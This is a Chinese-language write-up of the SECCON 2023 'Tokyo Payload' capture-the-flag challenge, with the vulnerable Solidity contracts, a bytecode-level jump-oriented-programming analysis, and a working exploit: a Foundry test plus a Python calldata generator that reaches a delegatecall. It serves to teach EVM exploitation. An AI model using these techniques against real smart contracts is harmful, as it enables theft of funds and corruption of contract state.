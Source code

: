 ```yaml
---
title: Blockchain - Tokyo Payload
description: 2023 | SECCON | Misc
tags:
    - smart contract
    - evm
    - bytecode
    - jump oriented programming
---
```


## 题目

What is Solidity?

> nc tokyo-payload.seccon.games 31337

??? note "Setup.sol"

    ```js
    // SPDX-License-Identifier: Apache-2.0
    pragma solidity 0.8.21;

    import {TokyoPayload} from "./TokyoPayload.sol";

    contract Setup {
        TokyoPayload public tokyoPayload;

        constructor() {
            tokyoPayload = new TokyoPayload();
        }

        function isSolved() public view returns (bool) {
            return tokyoPayload.solved();
        }
    }
    ```

??? note "TokyoPayload.sol"

    ```js
    // SPDX-License-Identifier: Apache-2.0
    pragma solidity 0.8.21;

    contract TokyoPayload {
        bool public solved;
        uint256 public gasLimit;

        function tokyoPayload(uint256 x, uint256 y) public {
            require(x >= 0x40);
            resetGasLimit();
            assembly {
                calldatacopy(x, 0, calldatasize())
            }
            function()[] memory funcs;
            uint256 z = y;
            funcs[z]();
        }

        function load(uint256 i) public pure returns (uint256 a, uint256 b, uint256 c) {
            assembly {
                a := calldataload(i)
                b := calldataload(add(i, 0x20))
                c := calldataload(add(i, 0x40))
            }
        }

        function createArray(uint256 length) public pure returns (uint256[] memory) {
            return new uint256[](length);
        }

        function resetGasLimit() public {
            uint256[] memory arr;
            gasLimit = arr.length;
        }

        function delegatecall(address addr) public {
            require(msg.sender == address(0xCAFE));
            (bool success,) = addr.delegatecall{gas: gasLimit & 0xFFFF}("");
            require(success);
        }
    }
    ```

## 解题思路

- 目标是让 `solved` 为 `true`，而 `TokyoPayload` 没有直接设置 `solved` 的语句，显然需要借助 `delegatecall`
- 地址检查限制了 `TokyoPayload.delegatecall()` 的调用，则只能通过 `tokyoPayload()` 跳转
- 分配给 `delegatecall` 的 gas 取决于通过 `arr.length` 设置的 `gasLimit`，而 `arr` 是尚未初始化的内存数组，那么即读取 `MEM[0x60]` 中的值。`calldatacopy` 可以覆盖 `MEM[0x60]` 中的值，使得 `arr.length > 0`，由此可确定 $x\in[40_{16}, 80_{16})$（且由于每次调用 `tokyoPayload()` 都会重设 `gasLimit`，需要通过一次调用来完成多次跳转）
- `DELEGATECALL` 所在块 `JUMPDEST` 的地址为 `0x1a3`，从栈顶到栈底调用栈应满足 `[目标地址addr, 下一跳转地址, ...]`
    - 希望代理调用结束后直接结束本次交易，下一跳转地址可以选择 `0x93`
    ![DELEGATECALL block](img/tokyo_payload01.jpg)

- 可通过 `calldataload` 将所需参数压入栈中，构造合适的调用栈。三个 `CALLDATALOAD` 所在块 `JUMPDEST` 的地址为 `0xd0`，从栈顶到栈底调用栈应满足 `[起始地址i, 下一跳转地址, ...]`。执行到 `0xdf` 时，栈中元素为 `[下一跳转地址, c, b, a, ...]`<br>
![CALLDATALOAD block](img/tokyo_payload02.jpg)

- 调用 `tokyoPayload()` 首次执行到函数跳转前，即 `0x18e JUMP`，对应源码 `funcs[z]()`，元素从栈顶到栈底依次为 `[0x18f, y, 0x60, y, x, ...]`
- 在内存覆盖完成后，需要再次调用 `resetGasLimit()`，可以选择 `0x153 JUMPDEST`，此时 `y` 对应栈顶元素 `STACK[0]`，`x` 对应 `STACK[1]`
- 由于需要使用 `SSTORE` 且对应 cold slot，至少需要 22100 gas，`tokyoPayload()` 的函数签名为 `0x40c3` (16579)，可以设 `x` 为 `0x7B` (0x80 - 5)，这样 `delegatecall` 的 `gasLimit` 为 `0xc300`
- 另外，`0x17f` 对应的块可以对栈结构进行微调，可用于跳转 `0xd0` 前，改变栈顶参数 `i`<br>
![0x17f JUMPDEST](img/tokyo_payload03.jpg)

### Exploit

1. 调用 `tokyoPayload()`，覆盖内存，`funcs[z]()` 为 `0x17f`
2. `0x17f` `MEM[0x20 * 0x18f + 0x20 + y] = 0xd0`，执行到 `0x18e JUMP` 时，栈中元素从栈顶到栈底依次为 `[0xd0, 0x60, y, ...]`，由此 `y` 为 `0x153`
3. `0xd0` 构造栈，`b` 对应新的 `x`，`c` 对应新的 `y`
4. `0x153` 重设 `gasLimit`，下一跳转地址 `0x1a3` 对应 `y`，`funcs[z]()` 为 `0xd0`
5. `0xd0` 构造调用栈
6. `0x1a3` 代理调用

```js
contract Logic {
    fallback() external payable {
        assembly {
            sstore(0, 1)
        }
    }
}

contract TokyoPayloadTest is Test {

    TokyoPayload public tokyoPayload;
    address logic;

    function setUp() public {
        tokyoPayload = new TokyoPayload();
        logic = address(new Logic());
    }

    function testSolve() public {
        string[] memory inputs = new string[](3);
        inputs[0] = "python3";
        inputs[1] = "script/generate.py";
        inputs[2] = Strings.toHexString(logic);
        bytes memory data = vm.ffi(inputs);
        (bool s, ) = address(tokyoPayload).call(data);
        require(s);
        require(tokyoPayload.solved());
    }
}
```

```py
import sys

def place(offset, value: int):
    global data
    if l := len(data) // 2 < offset:
        data += '00' * (offset - l + 0x20)
    data = data[: offset * 2] + f'{value:064x}' + data[(offset + 0x20) * 2:]

target_addr = int(sys.argv[1], 16)
data = '000040c3'   # sig
data += f'{0x7b:064x}'  # x
data += f'{0x153:064x}' # y
place(0x4 + 0x153 * 0x20 + 1, 0x17f)   # funcs[0x153] = 0x17f
place(0x20 * 0x18f + 0x20 + 0x153 - 0x7b, 0xd0) # MEM[0x20 * 0x18f + 0x20 + y] = 0xd0
place(0x60 + 0x20, 0x7c) # b: new_x
place(0x60 + 0x40, 0x1a3) # c: new_y
place(0x4 + 0x1a3 * 0x20, 0xd0)   # funcs[0x1a3] = 0xd0
place(0x18f + 0x20, 0x93)   # b: STOP JUMPDEST
place(0x18f + 0x40, target_addr)   # c: DELEGATECALL target
print(data)
```

## 参考资料

- [Layout in Memory — Solidity documentation](https://docs.soliditylang.org/en/latest/internals/layout_in_memory.html)
- [Debugger - Foundry Book](https://book.getfoundry.sh/forge/debugger)
